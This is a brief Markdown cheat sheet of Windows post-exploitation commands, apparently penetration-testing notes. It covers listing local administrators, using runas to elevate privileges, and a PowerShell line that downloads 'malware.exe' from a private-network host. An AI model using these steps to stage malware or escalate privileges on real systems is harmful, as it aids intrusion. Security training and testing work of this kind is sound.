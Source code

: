 # Windows

## Command Prompt
**Local Administrators**
```
net localgroup administrators
```

**Elevating Privileges**
```
runas
```

## PowerShell
**Download a File**
```pwsh
iwr http://192.168.1.23:8000/malware.exe -o malware.exe
```